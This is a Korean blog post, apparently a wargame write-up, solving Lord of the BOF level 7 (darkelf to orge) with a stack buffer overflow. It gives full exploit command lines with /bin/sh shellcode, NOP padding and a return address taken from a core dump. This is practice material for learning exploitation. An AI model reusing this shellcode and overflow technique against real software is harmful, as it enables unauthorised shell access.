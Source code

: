 ```yaml
---
title:  "[LOB] level 7: darkelf >> orge "

categories: lob
tags: [lob]

toc: true
toc_sticky: true

date: 2021-12-22 13:46:34

---
```

\xff 를 \x00으로 인식하는 오류를 피해 bash2를 사용합니다

# level 7

**darkelf / kernel crashed**

orge.c 코드 읽기  
![image](https://user-images.githubusercontent.com/69203345/147099444-17370eef-7d61-4a99-b073-74e00cbda363.png)

argv[0]의 길이가 77바이트 여야만 한다  
예를들어 argv[0]은 ./abc DD EE 에서 ./abc 이다  argv[1]은 DD argv[2]는 EE 이다  
그렇다면 파일의 이름이 77바이트 여야한다는건데  
./을 제외하고 orge를 75바이트로 만들면 되겠다

rename을 사용해서 이름을 바꿔준다  
형식. rename 변경전파일명 변경후파일명 대상파일  
![image](https://user-images.githubusercontent.com/69203345/147101067-40ee1eca-2581-41fd-a3cc-e3e76b2087a1.png)  

이전 레벨과 사용법 같음  
argv[1] = 'print "\x90"*44+RET'  
argv[2] = 'python -c 'print "\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>./\`python -c 'print "A"\*75+" "+"B"\*44+"\xff\xff\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147101369-7dabc847-7faf-4926-8444-2c4c4f292382.png)  
gdb로 코어파일 확인  
![image](https://user-images.githubusercontent.com/69203345/147101610-af783570-cdbc-48c1-b0d7-d9f8628c288e.png)

0xbffffb30 부터 argv[0]  
0xbffffb70 부터 argv[1]  
0xbffffbc0 부분이 argv[2]  

0xbffffbc0 부분을 리턴주소로 사용해서 페이로드 작성

>./\`python -c 'print "A"\*75+" "+"B"\*44+"\xb0\xfb\xff\xbf"+" "+"\x90"*20+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

![image](https://user-images.githubusercontent.com/69203345/147102329-ab0c0505-ed20-4e62-aa27-f1430da306b1.png)